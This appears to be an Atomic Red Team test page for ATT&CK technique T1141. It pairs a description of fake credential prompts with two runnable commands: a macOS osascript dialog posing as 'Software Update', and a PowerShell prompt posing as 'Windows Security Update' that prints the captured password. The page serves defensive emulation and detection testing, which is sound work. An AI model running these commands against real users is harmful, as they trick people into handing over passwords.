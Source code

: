 # T1141 - Input Prompt
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1141)
<blockquote>When programs are executed that need additional privileges than are present in the current user context, it is common for the operating system to prompt the user for proper credentials to authorize the elevated privileges for the task (ex: [Bypass User Account Control](https://attack.mitre.org/techniques/T1088)).

Adversaries may mimic this functionality to prompt users for credentials with a seemingly legitimate prompt for a number of reasons that mimic normal usage, such as a fake installer requiring additional access or a fake malware removal suite.(Citation: OSX Malware Exploits MacKeeper) This type of prompt can be used to collect credentials via various languages such as [AppleScript](https://attack.mitre.org/techniques/T1155)(Citation: LogRhythm Do You Trust Oct 2014)(Citation: OSX Keydnap malware) and [PowerShell](https://attack.mitre.org/techniques/T1086)(Citation: LogRhythm Do You Trust Oct 2014)(Citation: Enigma Phishing for Credentials Jan 2015).</blockquote>

## Atomic Tests

- [Atomic Test #1 - AppleScript - Prompt User for Password](#atomic-test-1---applescript---prompt-user-for-password)

- [Atomic Test #2 - PowerShell - Prompt User for Password](#atomic-test-2---powershell---prompt-user-for-password)


<br/>

## Atomic Test #1 - AppleScript - Prompt User for Password
Prompt User for Password (Local Phishing)
Reference: http://fuzzynop.blogspot.com/2014/10/osascript-for-local-phishing.html

**Supported Platforms:** macOS


#### Run it with `sh`!
```
osascript -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to display dialog "Software Update requires that you type your password to apply changes." & return & return  default answer "" with icon 1 with hidden answer with title "Software Update"'
```
<br/>
<br/>

## Atomic Test #2 - PowerShell - Prompt User for Password
Prompt User for Password (Local Phishing) as seen in Stitch RAT.

Reference: https://github.com/nathanlopez/Stitch/blob/master/PyLib/askpass.py

**Supported Platforms:** Windows


#### Run it with `command_prompt`!
```
powershell.exe -command {$cred = $host.UI.PromptForCredential('Windows Security Update', '',[Environment]::UserName, [Environment]::UserDomainName); echo $cred.GetNetworkCredential().Password;}
```
<br/>
